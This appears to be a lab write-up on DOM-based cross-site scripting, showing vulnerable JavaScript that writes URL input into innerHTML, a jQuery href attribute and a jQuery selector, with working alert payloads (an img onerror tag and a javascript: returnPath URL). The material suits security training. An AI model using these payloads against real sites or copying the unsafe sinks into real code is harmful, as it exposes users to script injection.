 ```
<script>
	function doSearchQuery(query) {
		document.getElementById('searchMessage').innerHTML = query;
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		doSearchQuery(query);
	}
</script>
```

```
<img src=1 onerror=alert(document.domain)>
```

### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

```
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

```
/feedback?returnPath=/123456789
<a id="backLink" href="/123456789">Back</a>

/feedback?returnPath=javascript:alert(document.domain)
<a id="backLink" href="javascript:alert(document.domain)">Back</a>
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

```
<script>
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
});
</script>
```
